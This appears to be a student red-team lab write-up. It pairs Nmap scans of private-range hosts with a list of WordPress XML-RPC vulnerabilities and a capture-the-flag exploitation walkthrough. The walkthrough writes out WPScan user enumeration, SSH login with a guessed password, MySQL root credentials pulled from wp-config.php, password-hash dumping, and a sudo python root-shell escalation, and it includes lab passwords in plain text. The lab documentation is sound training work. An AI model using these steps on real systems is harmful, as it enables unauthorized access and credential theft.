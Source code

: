 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
---
## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

**Nmap scan report for 192.168.1.1**
Host is up (0.00058s latency).
Not shown: 995 filtered ports

**PORT     STATE SERVICE       VERSION**\
135/tcp  open  msrpc         Microsoft Windows RPC\
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn\
445/tcp  open  microsoft-ds?\
2179/tcp open  vmrdp?\
3389/tcp open  ms-wbt-server Microsoft Terminal Services\
MAC Address: 00:15:5D:00:04:0D (Microsoft)\
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows\
**Nmap scan report for 192.168.1.100**\
Host is up (0.00089s latency).\
Not shown: 998 closed ports

**PORT     STATE SERVICE VERSION**\
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)\
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)\
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel\
Nmap scan report for 192.168.1.105\
Host is up (0.00052s latency).\
Not shown: 998 closed ports\

**PORT   STATE SERVICE VERSION**\
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
80/tcp open  http    Apache httpd 2.4.29\
MAC Address: 00:15:5D:00:04:0F (Microsoft)\
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.110**\
Host is up (0.00062s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)  
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:10 (Microsoft)\
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.115**\
Host is up (0.0014s latency).\
Not shown: 995 closed ports

**PORT    STATE SERVICE     VERSION**\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
MAC Address: 00:15:5D:00:04:11 (Microsoft)\
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel\
**Nmap scan report for 192.168.1.90**\
Host is up (0.0000080s latency).\
Not shown: 999 closed ports

![NMAP network scan](Images/1NMAPnetworkscan.png)

---

### This scan identifies the services below as potential points of entry:
- Target 1 
List of Exposed Services
PORT    STATE SERVICE     VERSION\
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)\
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))\
111/tcp open  rpcbind     2-4 (RPC #100000)\
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)\
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

![Target 1 Port Scan](Images/2-5NMAPScan192.168.1.110.png)

### The following vulnerabilities were identified on Target 1:

 ### List of Critical Vulnerabilities
- WordPress XMLRPC GHOST Vulnerability Scanner - CVE-2015-0235
- Wordpress XMLRPC DoS
- Wordpress XML-RPC Username/Password Login Scanner
- Wordpress Pingback Locator - CVE-2013-0235
- Wordpress XML-RPC Pingback API

![WordPress Exploit Scan](Images/3-02Wpscanexploits.png)



### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - First, the Wordpress server was ennumerated with WPSCAN
          The user accounts were found in the results as well as five vunerabilities.
          The accounts were michael and steven
          The password for michael was easily guessed as : michael, revealing no password
          requirements were being enforced.  wpscan was also able to crack steven's password.
        
        wpscan --url 192.168.1.110/wordpress/ -e
        ssh michael@192.168.1.110
        password:michael
        cd /var/www/html
        nano service.html
        
![Flag 1](Images/3-2flag1serviceshtml.png)


      flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Using the find command the 2nd flag was revealed to be in /var/www/
      - _TODO: Include the command run_
        find / -iname flag*
        cd /var/www
        cat flag2.txt

![Flag 2](Images/3-5flag2.png)
      
      
      flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
    Searching the /var/www/html directory revealed the wp-config.php file.  Searching that file
    revealed the root password for the MySQL database 'wordpress'.  Using the MySQL credentials
    allowed searching the tables 'wpcomments' and 'wpusers' which revealed a flag and two users hashes 
    respectively.  
    
      - _TODO: Include the command run_
      mysql -u root -p -h 127.0.0.1
      use wordpress;
      show tables
      select * from wp_comments
      select * from wp_users

 ![Flag 3](Images/6flag3.png)
      
      
      flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Using Steven's password, escalation was achived.  Then using python, root was achived
      allowing full access to all directories.  A find was performed, revealing a final flag file 
      in /root/flag4.txt


      su steven
      pink84
      sudo python -c 'import pty;pty.spawn("/bin/bash")'
      find / -iname flag*
      cd /root/
      cat flag4.txt


![Flag 4](Images/9flag4)
